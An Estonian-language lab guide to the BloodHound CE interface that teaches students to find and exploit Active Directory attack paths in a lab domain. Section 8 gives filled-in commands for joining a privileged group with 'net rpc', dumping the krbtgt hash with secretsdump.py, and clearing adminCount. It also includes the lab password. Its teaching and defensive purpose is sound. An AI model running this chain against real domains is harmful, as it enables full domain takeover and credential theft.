

# BloodHound CE veebiliidese kasutusjuhend

> Abimaterjal laborile [BloodHound-labor.md](./BloodHound-labor.md).
> Käsitleb BloodHound **Community Edition (CE)** veebiliidest (`http://localhost:8080`) — kuidas andmetes liikuda, ründeteid leida ja iga serva tähendus välja lugeda.

---

## 0. Lühendid

- **CE** — *Community Edition*, BloodHoundi avatud tasuta versioon
- **AD** — *Active Directory*, Microsofti kataloogiteenus
- **DA** — *Domain Admins*, domeeni administraatorite grupp
- **ACL** — *Access Control List*, objekti pääsuloend (kellel millised õigused)
- **SPN** — *Service Principal Name*, teenuse nimi Kerberoses
- **Edge** — serv, graafi suhe kahe sõlme vahel (nt `MemberOf`)
- **Node** — sõlm, graafi objekt (kasutaja, grupp, arvuti, …)

---

## 1. Mida BloodHound näitab

BloodHound laadib kogutud AD-andmed **graafiks**: sõlmed on objektid (kasutajad, grupid, arvutid, GPO-d, OU-d, domeen) ja servad on nende vahelised **õigussuhted**. Mõte: leida ahel (**attack path**), mis viib madala õigusega kontost kõrgete õigusteni (nt Domain Adminsini), mida käsitsi ACL-e lugedes ei märkaks.

Graafis tühi vaade on normaalne — midagi kuvatakse alles siis, kui teed otsingu või päringu.

---

## 2. Põhiriba: Search / Pathfinding / Cypher

Nii näeb BloodHound CE veebiliides välja: vasakul menüü (**Explore**, Privilege Zones, Quick Upload jne), keskel graaf, ülal kolm vahelehte (**SEARCH / PATHFINDING / CYPHER**) ja paremal avatud serva **Abuse Info** paneel.



Ülaservas on kolm vahelehte:

| Vaheleht | Milleks |
|---|---|
| **SEARCH** | Leia ja tsentreeri **üks** objekt (kasutaja, grupp, arvuti) |
| **PATHFINDING** | Leia **tee kahe sõlme vahel** (algus → siht) |
| **CYPHER** | Päringukeel — valmis päringud ja oma päringud |

Pildil: algsõlm `JAAN.TAMM`, sihtsõlm `ADMINISTRATOR`, graafil serv `GenericAll`, ja paremal selle serva Abuse Info käsud.

---

## 3. Sõlmed (nodes) — tüübid

Igal objektitüübil on oma ikoon:

| Ikoon | Tüüp | Näide laboris |
|---|---|---|
| Roheline inimene | **Kasutaja** (User) | `jaan.tamm`, `svc-sql` |
| Kollane kolmik | **Grupp** (Group) | `Serveri-Admins`, `Domain Admins` |
| Arvutiekraan | **Arvuti** (Computer) | `SERVER.hkhk.local` |
| Dokument | **GPO** / **OU** / **Container** | — |
| Maakera | **Domeen** (Domain) | `HKHK.LOCAL` |

**Sädeluse-/teemandimärk** sõlme nurgas = **Tier Zero / High Value** — kõige tundlikumad objektid (Domain Admins, domeenikontrollerid, Administrator). Ründe lõppsiht on peaaegu alati mõni Tier Zero sõlm.

---

## 4. Servad (edges) — mida iga suhe tähendab

Serv näitab, **mis õigus ühel sõlmel teise üle on**. Laboris esinevad peamised:

| Serv | Tähendus | Kuidas ründaja kasutab |
|---|---|---|
| `MemberOf` | kuulub gruppi | pärib grupi kõik õigused |
| `GenericAll` | täielik kontroll objekti üle | grupil: lisab end liikmeks; kasutajal: lähtestab parooli |
| `GenericWrite` | enamiku atribuutide kirjutus | nt seab ohvrile SPN-i (Kerberoast) või sihtmärgi |
| `WriteDacl` | õigus muuta pääsuloendit | kirjutab endale GenericAll/DCSync |
| `WriteOwner` / `Owns` | objekti omanik(uks saamine) | teeb end omanikuks → annab endale õigusi |
| `ForceChangePassword` | parooli lähtestus ilma vanata | võtab ohvri konto üle |
| `AllExtendedRights` | kõik laiendatud õigused | sisaldab mh DCSync ja ForceChangePassword |
| `DCSync` | paroolihashide replikaat | tõmbab krbtgt hashi → Golden Ticket |
| `AdminTo` | lokaalne admin arvutil | käivitab koodi sellel masinal |
| `HasSPN` | kontol on SPN seatud | **Kerberoast** — murrab konto parooli offline |

---

## 5. Otsing (SEARCH)

1. Vali **SEARCH**, trüki nime algus (nt `jaan`).
2. Klõpsa tulemusel — sõlm tsentreeritakse graafil.
3. **Klõps sõlmel** avab paremal **infopaneeli** (Overview).

**Inbound vs Outbound Object Control** — infopaneeli kaks tähtsaimat sektsiooni:

| Sektsioon | Mida näitab | Kes seda vaatab |
|---|---|---|
| **Outbound Object Control** | õigused, mis **sellel** sõlmel on **teiste** üle (*mida tema saab teha*) | ründaja: „millele mul on õigus?" |
| **Inbound Object Control** | õigused, mis **teistel** on **selle** sõlme üle (*kes teda kontrollib*) | kaitsja: „kes saab selle konto üle võtta?" |

Nii et „SEARCH `mari.kask` → **Outbound**" tähendab: ava mari sõlm ja vaata Outbound Object Control sektsiooni → näed `ForceChangePassword` sihtmärgile `peeter.saar`. Kõrgel sihtmärgil (Domain Admins, domeen) vaata hoopis **Inbound** — näed, kes sinna ligi pääseb.

> Iga õiguse (serva) ärakasutamine samm-sammult, Kali ja Windowsi käskudega, on failis **[Rundeteede-lahenduskaik.md](./Rundeteede-lahenduskaik.md)**.

---

## 6. Pathfinding — tee kahe sõlme vahel

See on labori põhitööriist.

1. Vali **PATHFINDING**.
2. Ülemine väli (täpp) = **algsõlm**, nt `JAAN.TAMM@HKHK.LOCAL`.
3. Alumine väli (ring) = **sihtsõlm**, nt `ADMINISTRATOR@HKHK.LOCAL` või `DOMAIN ADMINS@HKHK.LOCAL`.
4. BloodHound joonistab **lühima tee** nende vahel, kui see olemas on.

Nii saidki esimese tee:
`JAAN.TAMM —GenericAll→ SERVERI-ADMINS —MemberOf→ DOMAIN ADMINS —(kontroll)→ ADMINISTRATOR`.

Tühi tulemus = teed pole (või andmed pole imporditud).

---

## 7. Paremklõps ja "Shortest Path to Here"

**Paremklõps sõlmel** annab menüü:

- **Set as Starting Node / Set as Ending Node** — määra tee otspunktid.
- **Shortest Paths to Here** — kõik lühimad teed selle sõlmeni (hea Domain Adminsi peal: „kes üldse DA-ni jõuab?").
- **Mark as Owned** — märgi konto „juba hõivatuks" (ründaja lähtepunkt).
- **Mark as High Value / Tier Zero** — märgi tundlik sihtmärk.
- **Expand / Collapse** — näita selle sõlme naabersuhteid.

Tüüpiline töövoog: paremklõps **Domain Adminsil → Shortest Paths to Here** → näed kõiki teid, mis DA-ni viivad.

---

## 8. Serva infopaneel — Abuse Info (kõige tähtsam)

**Klõpsa serval** (suhte nimel, nt `GenericAll`) → paremal avaneb paneel vahelehtedega:

- **General** — mida serv tähendab.
- **Abuse Info** — **täpsed käsud**, kuidas seda õigust ära kasutada (Windows/Linux, nt `net group`, `Set-DomainObjectOwner`, `secretsdump.py` DCSync jaoks). See on õppija jaoks kuldaväärt: iga serv ütleb ise, kuidas teda rünnata.
- **Opsec** — mida rünne logidesse jätab (seob kaitsja vaatega).
- **References** — lisalugemine.

**Soovitus laboriks:** iga leitud serva puhul ava Abuse Info ja loe, millise käsuga seda ründaks ning mis jälje see jätab. Just see ühendab „leidsin tee" ja „saan aru, kuidas ja mille vastu kaitsta".

### 8.1 Näide algajale: `GenericAll` grupi üle (jaan.tamm → Serveri-Admins)

Kui klõpsad serval `GenericAll` sõlmede `JAAN.TAMM` ja `SERVERI-ADMINS` vahel, näitab **Abuse Info** umbes sellist Linuxi/Samba näidet (**NB! need on üldised „placeholder'id", mitte valmis käsk**):

```text
net rpc group addmem "TargetGroup" "TargetUser" -U "DOMAIN"/"ControlledUser"%"Password" -S "DomainController"
```

**Mida õpilane näeb ja mida asendada.** BloodHound näitab ÜLDISI kohahoidjaid — pane nende asemele oma labori väärtused:

| Kohahoidja aknas | Mis see on | Sinu laboris |
|---|---|---|
| `TargetGroup` | grupp, mille üle õigus on | `Serveri-Admins` |
| `TargetUser` | keda gruppi lisada | `jaan.tamm` (ta ise) |
| `DOMAIN` | domeeni **NetBIOS lühinimi** (mitte `hkhk.local`!) | `HKHK` |
| `ControlledUser` | konto, mille mandaati kasutad | `jaan.tamm` |
| `Password` | selle konto parool | `Suvi2026!` |
| `DomainController` | DC IP või nimi | `10.0.30.10` või `SERVER.hkhk.local` |

**NB:** need `net rpc` / `pth-net` käsud on **Kali/Linux** tööriistad (Samba `net`). Windowsis neid pole — vaata allpool Windowsi vastet.

#### Variant 1 — Kalist (nagu aknas näidatud, täidetud)

> **NB! Kasuta ülakomasid (`'...'`), mitte jutumärke** — labori paroolis on `!`, ja bash käivitab `!` jutumärkides ajaloo-laienduse, mis ajab rea sassi (jääd `dquote>` ootejärge). Ülakomade sees on `!` ja `%` literaalsed. (Kui jäid juba `dquote>` lõksu, vajuta **Ctrl+C** ja alusta uuesti.)

```bash
net rpc group addmem 'Serveri-Admins' 'jaan.tamm' -U 'HKHK/jaan.tamm%Suvi2026!' -S 10.0.30.10

# kontroll:
net rpc group members 'Serveri-Admins' -U 'HKHK/jaan.tamm%Suvi2026!' -S 10.0.30.10
```

#### Variant 2 — domeeniga liitunud Win11-lt, jaan.tamm'ina
Masin on juba domeenis ja kasutaja autenditud, nii et **`DOMAIN`-välja ei kirjutata üldse**:
```cmd
:: sisseehitatud, ei vaja tööriistu ega jää Defenderi taha
net group "Serveri-Admins" jaan.tamm /add /domain

:: kontroll:
net group "Serveri-Admins" /domain
```
(PowerView'ga: `Add-DomainGroupMember -Identity 'Serveri-Admins' -Members 'jaan.tamm'`.)

**Mis edasi — miks see annab täieliku kontrolli.** Grupp `Serveri-Admins` ei ole Domain Adminsi liige, aga tal on **DCSync** domeenil. Kui jaan on grupis, saab ta replitseerida paroolihashid (sh `krbtgt`) → Golden Ticket → täielik ülevõtt. Kalist autenditakse värskelt, nii et grupiliikmelisus kehtib kohe:
```bash
secretsdump.py 'hkhk.local/jaan.tamm:Suvi2026!'@10.0.30.10 -just-dc-user krbtgt
```

> Kui kasutad jaan'i **juba avatud Win11 interaktiivset sessiooni**, jõustub uus liikmelisus alles pärast **välja/sisse logimist** (Kerberose pilet tehakse login'i ajal). Kontroll: `whoami /groups | findstr /i "Serveri-Admins"`. Kalist käivitatud `secretsdump.py` seda ei vaja, sest autendib ise uue pileti.

Lokaalset admini Win11-l pole vaja — õigus on AD-s ja seda jõustab DC.

### 8.2 Miks `Serveri-Admins` EI ole Domain Adminsi liige (AdminSDHolder)

Hea küsimus: miks grupil on **DCSync**, mitte lihtsalt Domain Adminsi liikmelisus? Vastus on **AdminSDHolder / SDProp** — oluline AD õppepunkt.

Kui teeksid sihtgrupi (`Serveri-Admins`) Domain Adminsi liikmeks, muutuks ta **kaitstud objektiks**: AD mehhanism **SDProp** lähtestaks iga ~60 min selle grupi ACL-i turvamallile ja lülitaks pärimise välja — **kustutades jaan'i `GenericAll` ACE**. Tulemus: BloodHound näitaks serva (kogus selle varem), aga abuse ebaõnnestuks:
- `net rpc` → `NT_STATUS_ACCESS_DENIED`
- bloodyAD → `insufficientAccessRights ... ERROR_DS_INSUFF_ACCESS_RIGHTS`

mõlema tööriistaga korraga (= asi pole protokollis, vaid õigust pole enam). Kaitstust tunneb ära `adminCount = 1`:
```powershell
Get-ADGroup Serveri-Admins -Properties adminCount | Select-Object Name, adminCount
```

**Seepärast** kasutab see labor hoopis **DCSync domeeniobjektil**: domeeni juure ACL-i AdminSDHolder **ei lähtesta**, nii et tee püsib ja jaan'i GenericAll grupil ei kustu. Ühtlasi õpetlikum — päris ründajad väldivad Domain Adminsi otsest sihtimist ACL-idega ja eelistavad just selliseid püsivaid teid (DCSync, lokaalne admin masinatel).

> **Kui ikkagi näed `ACCESS_DENIED`-i** (nt vana skriptiversiooniga, kus grupp oli DA liige): kontrolli `adminCount`, ja kas jooksuta uuesti praegune `Seed-ADLabor.ps1` (DCSync-disain) **või** nulli kaitse ajutiselt — `Set-ADObject (Get-ADGroup 'Serveri-Admins') -Clear adminCount` ja anna GenericAll uuesti (kehtib kuni järgmise SDProp tsüklini).

---

## 9. Cypher — valmis ja oma päringud

**CYPHER** vaheleht:

- **Kaustaikoon** avab **valmis päringud** (nt „Find all Domain Admins", „Shortest paths to Domain Admins", „Find Kerberoastable users"). Klõpsa — graaf täitub.
- Oma päringu näide, mis leiab kõik SPN-iga (Kerberoastitavad) kontod:
  ```cypher
  MATCH (u:User) WHERE u.hasspn=true RETURN u
  ```
- Kõik Domain Adminsini viivad lühimad teed:
  ```cypher
  MATCH p=shortestPath((n)-[*1..]->(g:Group)) WHERE g.name STARTS WITH 'DOMAIN ADMINS' RETURN p
  ```

---

## 10. Selle labori kontroll-loend (mida peaksid leidma)

Kasutades Pathfindingut, paremklõpsu „Shortest Paths to Here" ja Cypheri valmispäringuid, peaksid üles leidma kõik kuus istutatud teed:

| # | Serv / tee | Kuidas leida |
|---|---|---|
| 1 | `Serveri-Admins —DCSync→ domeen` | SEARCH Serveri-Admins → Outbound; või Pathfinding jaan.tamm → domeen |
| 2 | `jaan.tamm —GenericAll→ Serveri-Admins` | sama tee esimene serv |
| 3 | `mari.kask —ForceChangePassword→ peeter.saar` | SEARCH mari.kask → Outbound õigused |
| 4 | `liis.oja —DCSync→ domeen` | SEARCH liis.oja → Outbound; või Cypher DCSync |
| 5 | `peeter.saar —WriteDacl→ Helpdesk` | SEARCH peeter.saar → Outbound |
| 6 | `svc-sql` (HasSPN) | Cypher „Kerberoastable users" |

Iga leitud serva kohta: ava **Abuse Info** (kuidas rünnata) ja **Opsec** (mis jälg jääb), siis kirjelda parandust — vt põhitöölehe Osa C ja D.

---

## 11. Kasulikud nipid

- **Mark as Owned** lähtepunktidele (nt `jaan.tamm`) — BloodHound oskab siis näidata „mis on juba hõivatust saavutatav".
- **Tier Zero** vaade aitab kiiresti näha, mis on tegelikult kaitsmist väärt.
- Hiirerattaga suumid, lohistades liigutad; sõlme topeltklõps laiendab naabrid.
- Kui graaf läheb sassi, tee uus otsing või „Clear graph".
